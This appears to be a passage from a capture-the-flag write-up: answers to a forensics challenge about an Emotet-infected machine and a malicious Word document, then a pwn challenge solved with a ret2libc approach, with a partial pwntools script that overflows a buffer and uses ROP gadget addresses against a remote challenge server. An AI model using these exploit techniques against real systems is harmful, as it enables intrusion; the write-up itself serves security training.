 1. From which site the malicious Office document was downloaded? Flag format: lowercase letters, no spaces

Flag: **http://danielbrink.dk**

2. Which is the IP of the machine where the malicious document was downloaded? Flag format: standard IP address format

Flag: **10.12.5.102**

3. Which is the name of the malicious document downloaded? <filename>.<extension>

Flag: **eForm-869337384710242.doc**

4. With which malware family was the compromised machine infected? Flag format: lowercase letters

Flag: **emotet**

<a name="pwn1"></a>
## pwn1 (320 pts, 19 solves) - Pwn

Description:
```
This is just a regular pwn!

Flag format: CTF{sha256}
```

Return to main, leak puts got using pop rdi + puts call, find libc from offset, return to system / one_gadget.

Solver:

```py
from pwn import *

# main ret 00401185

pop_rdi = 0x4011f3
puts = 0x404018
puts_main = 0x40117a
diff_main = 0x401162
ret = 0x000000000040101a

pop_rsi_r15 = 0x00000000004011f1

pop_r12_to_r15 = 0x00000000004011ec

#/lib/x86_64-linux-gnu/libc.so.6
libc = ELF('../libc6_2.31-0ubuntu9.9_amd64.so')

#sh = process('./main')
sh = remote('35.246.241.21', 31185)

main = 0x00401156
padding = b'A' * 0x80
rbp = 0x00404900

"""
context.terminal = ["tmux", "splitw", "-h"]
gdb.attach(sh, '''
    break *0x00401185
''')
"""

payload = padding + p64(rbp) + p64(diff_main)

sh.sendline(payload)
```